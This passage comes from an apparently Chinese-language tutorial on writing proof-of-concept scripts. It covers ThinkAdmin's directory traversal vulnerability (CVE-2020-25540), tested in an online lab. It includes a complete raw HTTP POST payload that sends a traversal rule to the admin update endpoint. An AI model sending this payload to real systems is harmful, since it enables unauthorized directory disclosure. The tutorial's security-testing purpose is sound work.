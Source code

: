![image-20240411145931288](assets/image-20240411145931288.png)

## 2.4. `thinkadmin`目录遍历(Post请求)

这里同时使用在线靶场，而且在线靶场中可能获取的数据可能和实际的情况有所不同，例如这个漏洞，我看网上别人获取到的目录遍历都是英文的，而我使用靶场获取到的目录都是中文的，所以在实际编写过程中可能需要多测试几个案例，才能够真正完善好脚本，使得脚本能覆盖的更广。

`CVE`编号：`CVE-2020-25540`

### 2.4.1. `POC`验证

这里的`POC`验证，我也就是从网上找了一个复现的过程，然后使用别人的`payload`来复现的，原本我们在编写的时候，就需要这个漏洞能够有一个完整的复现过程，只不过我们将这个复现的过程，从手工复现转换成脚本复现，尤其是在针对多个`URL`的时候，那么使用脚本就能够更好节约时间。

这里请求的是`Get`请求，但是我们需要将其修改成`POST`请求，而在我们编写脚本的时候，我们直接让其发送`POST`请求，这个道理是相同的，我们无法左右浏览器发送哪种类型的请求(插件不算)，那么我们就只能靠`burp`去修改，那么就完成了变更。

```python
payload：
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: 127.0.0.1
Accept: */*Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D
```
